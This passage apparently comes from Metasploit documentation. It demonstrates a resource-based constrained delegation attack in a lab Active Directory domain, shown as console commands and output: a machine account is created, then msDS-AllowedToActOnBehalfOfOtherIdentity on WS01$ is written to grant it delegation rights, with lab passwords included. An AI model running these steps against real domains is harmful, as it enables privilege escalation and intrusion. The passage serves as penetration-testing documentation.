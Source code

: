 ```msf
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Using automatically identified domain: MSFLAB
[+] 192.168.159.10:445 - Successfully created MSFLAB\DESKTOP-QLSTR9NW$
[+] 192.168.159.10:445 -   Password: A2HPEkkQzdxQirylqIj7BxqwB7kuUMrT
[+] 192.168.159.10:445 -   SID:      S-1-5-21-3402587289-1488798532-3618296993-1655
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/samr_computer) > use auxiliary/admin/ldap/rbcd
```

Now use the RBCD module to read the the current value of `msDS-AllowedToActOnBehalfOfOtherIdentity`:

```msf
msf6 auxiliary(admin/ldap/rbcd) > set USERNAME sandy@msflab.local
BIND_DN => sandy@msflab.local
msf6 auxiliary(admin/ldap/rbcd) > set PASSWORD Password1!
BIND_PW => Password1!
msf6 auxiliary(admin/ldap/rbcd) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/ldap/rbcd) > set DELEGATE_TO WS01$
DELEGATE_TO => WS01$
msf6 auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] The msDS-AllowedToActOnBehalfOfOtherIdentity field is empty.
[*] Auxiliary module execution completed
```

Writing a new `msDS-AllowedToActOnBehalfOfOtherIdentity` value using the computer account created by `admin/dcerpc/samr_computer`:

```msf
msf6 auxiliary(admin/ldap/rbcd) > set DELEGATE_FROM DESKTOP-QLSTR9NW$
DELEGATE_FROM => DESKTOP-QLSTR9NW$
msf6 auxiliary(admin/ldap/rbcd) > write
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] Successfully created the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
[*] Auxiliary module execution completed
```

Reading the value of `msDS-AllowedToActOnBehalfOfOtherIdentity` to verify the value is updated:

```msf
msf6 auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] Allowed accounts:
[*]   DESKTOP-QLSTR9NW$ (S-1-5-21-3402587289-1488798532-3618296993-1655)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/rbcd) >
```
